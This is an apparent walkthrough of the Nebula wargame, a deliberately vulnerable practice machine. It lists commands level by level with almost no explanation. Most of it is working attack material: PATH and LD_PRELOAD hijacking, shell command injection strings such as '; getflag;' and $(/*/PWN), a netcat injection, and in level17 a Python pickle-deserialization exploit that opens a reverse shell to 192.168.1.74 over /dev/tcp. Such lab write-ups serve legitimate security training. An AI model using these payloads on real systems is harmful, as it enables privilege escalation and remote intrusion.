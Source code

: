 NEBULA WALKTHROUGH
==================

http://hatriot.github.io/blog/2013/03/30/nebula-solutions-all-levels/

# level00
```
find / -type f -executable -user flag00 2>/dev/null
```

# level01
```
ltrace flag01
strace flag01
ptrace flag01
ln -s `which getflag` /home/level01/echo
export PATH=/home/level01:$PATH
```

# level02
```
ltrace ...
export USER="; getflag;"
```

# level03
```
find / -writable 2>/dev/null | grep -vE '^(/dev/|/proc/|/home/level03/)'
find /var/spool | grep cron
find /etc/cron*
```

# level06
```
cut -f2 -d: /etc/passwd | sort -u # searching for legacy unix passwords
```

# level07
```
ps -efHj | grep flag07
```

# level08
```
tcpflow -r file.cap
wireshark -> follow tcp flow
```

# level09
```
preg_replace(/.../e)
`$pass_through`
```

# level10
```
access() -> open() race condition
```

# level11
```
boomerang flag11  # disasm
gdb               # runtime understanding
  start
  set disassembly-flavor intel
  layout asm
  break main
  break *main+0000
  print $edx
  x/10c $edx 
  stepi           # si
  nexti           # ni 
  info registers  # i r
  continue
  stop
```

# level12
```
nc $IP $PORT "$(getflag) >&2"
```

# level13
```
gdb ./flag13
ldd ./flag13
nano moduid.c
  #include <sys/types.h>
  uid_t getuid(void) { return (1000); }
gcc -shared moduid.c -o moduid.so
cd ../level13
cp ../flag13/flag13 ./      # нужно очистить SUID бит, иначе LD_PRELOAD работает непонятно
LD_PRELOAD=$PWD/moduid.so ldd ./flag13
LD_PRELOAD=$PWD/moduid.so ./flag13
```

# level14
```
gcc -Wall -fPIC -o /tmp/libc.o -c /tmp/lib.c
gcc -shared -W1,-Bstatic,-soname,libc.so.6 -o /var/tmp/flag15/libc.so.6 /tmp/libc.o -static
```

# level16
```
$username ...=... UPPER CASE
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;

nano /tmp/PWN
  id > /tmp/result
  
1) `/*/PWN`
2) $(/*/PWN)
3) ";{/*/PWN};
4) ";/*/PWN;
```

# level17
```
import socket
cmd = "cos\nsystem\n(S'/bin/bash -i > /dev/tcp/192.168.1.74/5555 0>&1'\ntR.\n"
try:
    sock = socket.socket()
    sock.connect(('192.168.1.206', 10007))
    data = sock.recv(512)
    print 'Got: ', data
    sock.send(cmd)
    sock.close()
except Exception, e: print e
```

